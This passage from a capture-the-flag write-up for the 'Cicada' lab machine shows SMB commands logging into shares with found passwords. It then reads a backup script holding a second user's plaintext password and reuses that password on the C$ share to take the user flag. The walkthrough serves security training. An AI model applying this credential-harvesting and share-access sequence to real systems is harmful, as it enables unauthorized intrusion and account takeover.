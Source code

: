 ```
	user_rid :	0x454
	group_rid:	0x201
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000000
	logon_count:	0x00000000
	padding1[0..7]...
	logon_hrs[0..21]...
```

Now, I can login to SMB DEV share with this account.

```
smbclient //10.10.11.35/DEV -U david.orelious%'aRt$Lp#7t*VQ!3' -W cicada.htb
```

Once session is established, we can see the ps1 script present on the share.

```
smb: \> dir
  .                                   D        0  Thu Mar 14 16:31:39 2024
  ..                                  D        0  Thu Mar 14 16:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 21:28:22 2024

		4168447 blocks of size 4096. 431820 blocks available
smb: \> get Backup_script.ps1 
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)

```

Let's examine `Backup_script.ps1`

```ps1
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

The script reveals another user's information. Namely, `emily.oscars` password is `Q!3@Lp#M6b*7t*Vt`

then I logged into Emily's user account in SMB

```
smbclient //10.10.11.35/C$ -U emily.oscars%'Q!3@Lp#M6b*7t*Vt' -W cicada.htb
```

and retrieved an user.txt flag from

`C:\Users\emily.oscars.CICADA\Desktop\user.txt`
